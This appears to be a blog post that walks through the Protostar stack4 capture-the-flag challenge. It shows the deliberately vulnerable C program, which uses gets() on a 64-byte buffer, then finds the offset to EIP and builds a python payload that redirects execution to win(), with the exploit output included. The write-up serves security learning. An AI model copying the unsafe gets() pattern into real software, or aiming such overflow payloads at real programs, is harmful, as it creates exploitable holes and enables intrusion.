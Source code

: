 ```yaml
---
layout: post
title: "Overwriting the instruction pointer: protostar stack4"
date: 2018-10-29
categories: jekyll update
---
```


This challenge is similar to the previous one, but with a major difference: 

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
{% endhighlight %}
There is a function, win() which we will attempt to call, but we are no longer given a function pointer to overwrite. 

We will need to write to the instruction pointer, in this case, it is specifically called the EIP. To do this, we first need to find the address of the win() function, because that is what we will write to the instruction pointer.

objdump is again perfect for this.

$objdump -D stack4 \| grep win

080483f4 \<win\>:

$

The address in this case is 0x80483f4.

We now just need to find the offset between the end of the buffer, which we will fill up, and the EIP we want to overwrite. This can be done by writing a script, trial and error, or we can just use what we did before (76 characters). The buffer is the same size, so we might as well give 76 a shot

$python -c 'print "A"*76' | ./stack4 

Segmentation fault

$

A segmentation fault is a good sign. We are overwriting the EIP, and causing it to access memory out of bounds. Just to be safe, we can test it at 75 characters and see if it segfaults.

$python -c 'print "A"*75' | ./stack4 

$

Looks like 76 is perfect, now we need to append the address of win(), in little endian byte order, and cause the program to execute the win() function.

$python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack4

Code flow successfully changed

Segmentation fault

$

Looks like it works.
